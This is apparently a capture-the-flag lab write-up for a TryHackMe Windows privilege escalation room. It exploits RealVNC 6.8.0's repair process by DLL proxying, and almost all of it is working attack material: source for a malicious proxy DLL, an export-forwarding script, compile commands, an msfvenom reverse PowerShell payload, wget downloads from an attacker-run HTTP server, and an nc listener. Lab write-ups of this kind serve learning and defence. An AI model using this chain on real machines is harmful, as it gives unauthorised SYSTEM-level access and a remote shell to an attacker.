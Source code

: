 writeup by VonKlotz for "Tryhackme.com room Windows Privilege Escalation, Task 7 Abusing vulnerable software Created by  tryhackme and  munra"

Case study: RealVNC 6.8.0

C:\Users\<username>\AppData\Local\Temp\     its our exploit destination
C:\Windows\System32\adsldpc.dll 			its dll we will proxy it need to copy it to our machine
1.bat  										msfvenom -p cmd/windows/reverse_powershell lhost=10.0.0.0 lport=9595 > 1.bat

~~~ FILES ~~~
proxy.c : A standard C implementation of a DLL. The only method implemented will be the DLLMain() function, containing our payload.

@@@@@@@@@@@@@@@@@@@ proxy.c @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
#include <windows.h>

BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    if (fdwReason == DLL_PROCESS_ATTACH) {
            system("C:\\tools\\1.bat");
    }

    return TRUE;
}
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

proxy.def : A definition file to pass to the linker, where we will specify all of the export forwards back to the original DLL. The structure of the file will hold a line for each export where we will indicate the name of the export, followed by the DLL and method name where the calls will be forwarded, followed by an ordinal that specifies in which position of the export table will the method be:

@@@@@@@@@@@@@@@@@@@@ proxy.def @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
EXPORTS
Method1=C:/Windows/System32/original.dll.Method1 @1
Method2=C:/Windows/System32/original.dll.Method2 @2
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

get_exports.py : We will then use a slightly modified version of the get_exports.py script from the Cobalt-Strike Github repo.

@@@@@@@@@@@@@@@@@@@@ get_exports.py @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
import pefile
import argparse

parser = argparse.ArgumentParser(description='Target DLL.')
parser.add_argument('--target', required=True, type=str,help='Target DLL')
parser.add_argument('--originalPath', required=True, type=str,help='Original DLL path')

args = parser.parse_args()

target = args.target
original_path = args.originalPath.replace('\\','/')

dll = pefile.PE(target)

print("EXPORTS", end="\r\n")

for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
    if export.name:
        print(f"    {export.name.decode()}={original_path}.{export.name.decode()} @{export.ordinal}", end="\r\n")
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


~~~ STEPS ~~~

1. make files above

2. make proxy using command below 

python3 get_exports.py --target adsldpc.dll --originalPath 'C:\Windows\System32\adsldpc.dll' > proxy.def

3. command bellow will compile proxy.c with the -c option, which won't run the linker and produce a proxy.o object file.

x86_64-w64-mingw32-gcc -m64 -c -Os proxy.c -Wall -shared -masm=intel

4. command bellow will take the proxy.o file and run it through the linker, which will also receive the proxy.def file with all of the exports we need for our proxy DLL. As a result, we will end up with the proxy.dll file we need to exploit RealVNC. Feel free to run get_exports.py into the new file to confirm it contains all the exports in the original DLL

x86_64-w64-mingw32-gcc -shared -m64 -def proxy.def proxy.o -o proxy.dll

5. create our payload 1.bat using msfvenom command bellow

msfvenom -p cmd/windows/reverse_powershell lhost=10.0.0.0 lport=9595 > 1.bat

6. start server on our machine command bellow in directory with files

python3 -m http.server 80

7. run powershell and download our dll to C:\Users\thm-unpriv\AppData\Local\Temp\adsldpc.dll  we can use command bellow

wget http://10.0.0.0:80/proxy.dll -O C:\Users\thm-unpriv\AppData\Local\Temp\adsldpc.dll

8. in powershell download 1.bat (our rev shell payload) use command bellow

wget http://10.0.0.0:80/1.bat -O C:\tools\1.bat

9. start listener on attaking machine can use command bellow

nc -lvnp 9595

10.run add and remove programs, click modify then choose repair and run it

~~~ ENJOY ~~~ 
